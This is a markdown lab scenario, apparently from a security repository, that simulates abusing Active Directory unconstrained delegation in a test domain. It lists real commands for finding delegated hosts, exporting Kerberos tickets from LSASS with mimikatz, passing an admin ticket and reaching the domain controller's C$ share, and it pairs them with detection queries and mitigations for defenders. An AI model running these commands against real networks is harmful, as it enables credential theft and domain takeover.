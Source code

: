 # Attack Scenario: Unconstrained Delegation Abuse
Simulates exploitation of hosts or accounts with unconstrained delegation enabled in an on-prem AD environment. An attacker who compromises such a host can extract TGTs of users who authenticate to it — potentially leading to domain compromise.

## MITRE ATT&CK Techniques:
- T1550.002 – Pass-the-Ticket
- T1134.001 – Token Impersonation/Theft

## Lab Environment
- **Windows Server 2025 host:** delegate01.internal.lab
→ Trusted for delegation to any service (unconstrained)
- **Domain Controller:** dc01.internal.lab
- **Attacker-controlled host:** attacker-vm
- **Admin user:** admin.internal.lab

Preconditions:
- delegate01 has unconstrained delegation enabled.
- admin.internal.lab logs in to delegate01 during the test.

## Objectives
- Identify hosts/accounts with unconstrained delegation
- Compromise the delegated host
- Monitor for incoming TGTs in memory
- Extract Domain Admin’s TGT
- Use the TGT to impersonate the Domain Admin and access sensitive systems

## Execution
### 1. Discover Delegation Configuration
Get-DomainComputer -Unconstrained

### 2. Compromise the Host
Access delegate01 via any method (e.g., RDP, PsExec, scheduled task).

### 3. Dump TGTs from LSASS (when victim logs in)
Use mimikatz:

```sekurlsa::tickets /export```

### 4. Identify Admin Ticket
Look for ticket targeting krbtgt or from admin@INTERNAL.LAB.

### 5. Pass-the-Ticket
kerberos::ptt <admin-ticket.kirbi>

### 6. Confirm Privilege Access
Try:

```dir \\dc01.internal.lab\c$```

or use BloodHound to pivot further.

##  Detection Guidance
### Microsoft Defender for Identity:
"Suspected use of ticket theft attack"

"Kerberos ticket reuse detected"

### Event Logs:
4769: TGS Request for high-privilege users
4624 Type 3: Network logons into sensitive systems

### KQL Example (Microsoft Sentinel):
```
SecurityEvent
| where EventID == 4624 and LogonType == 3
| where WorkstationName =~ "delegate01"
| summarize LogonCount = count() by Account, IPAddress, bin(TimeGenerated, 1h)
| where LogonCount > 3
```

## Mitigations
- Avoid enabling unconstrained delegation
- Use Resource-Based Constrained Delegation (RBCD) instead
- Prevent Domain Admins from logging into delegated systems
- Monitor for ticket export activity (e.g., access to LSASS)

## References
- https://adsecurity.org/?p=1667
- https://github.com/gentilkiwi/mimikatz
- https://attack.mitre.org/techniques/T1550/002/

## Navigation
← [Back to Lab Index](../../README.md)
→ [Related: Resource-Based Constrained Delegation](./rbcd.md)